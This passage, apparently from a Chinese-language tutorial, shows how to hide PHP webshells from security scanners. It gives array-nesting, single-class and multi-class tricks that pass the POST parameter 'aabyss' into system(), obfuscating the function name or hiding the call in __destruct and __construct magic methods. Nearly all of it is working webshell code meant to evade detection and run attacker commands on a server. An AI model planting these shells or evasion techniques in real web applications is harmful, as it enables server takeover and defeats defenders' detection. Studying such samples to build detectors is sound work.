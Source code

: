 ### 6.2 二维数组

```php
$f = substr_replace("systxx","em",4);          //system（高危函数）
$z = array($arrayName = ($arrayName = ($arrayName = array('a' => $f($_POST['aabyss'])))));
var_dump($z);
```

## 7# 类绕过

通过自定义类或者使用已知的类，将恶意代码放入对应的类中进行执行

### 7.1 单类

```php
class Test
{
    public $_1='';
    function __destruct(){
        system("$this->a");
    }
}
$_2 = new Test;
$_2->$_1 = $_POST['aabyss'];
```

### 7.2 多类

```php
class Test1
{
    public $b ='';
    function post(){
        return $_POST['aabyss'];
    }
}
class Test2 extends Test1
{
    public $code = null;
    function __construct(){
        $code = parent::post();
        system($code);
    }
}
$fff = new Test2;
$zzz = new Test1;
```

主要还是要用一些魔术方法来进行 ByPass

## 8# 嵌套运算绕过
